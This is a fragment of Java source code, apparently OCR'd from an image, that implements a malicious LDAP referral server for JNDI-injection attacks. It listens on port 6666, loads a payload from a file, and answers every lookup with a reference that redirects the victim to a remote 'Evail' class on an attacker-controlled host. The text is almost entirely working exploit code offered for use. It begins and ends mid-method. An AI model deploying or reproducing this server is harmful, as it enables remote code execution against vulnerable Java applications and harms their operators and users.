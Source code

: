 ```bash
        }

        String ip = tmp_args[0];
        String[] args = new String[]{"http://" + ip +"/#Evail"};
        String payload = "";
        File file = new File(tmp_args[1]);
        try {
            payload = FileUtils.readFileToString(file);
            System.out.println(payload);
        } catch (IOException e) {
            e.printStackTrace();
        }

        int port = 6666;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ]), payload));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        private String payload;

        public OperationInterceptor ( URL cb , String payload) {
            this.codebase = cb;
            this.payload = payload;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e, payload);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult (InMemoryInterceptedSearchResult result, String base, Entry e , String payload) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
```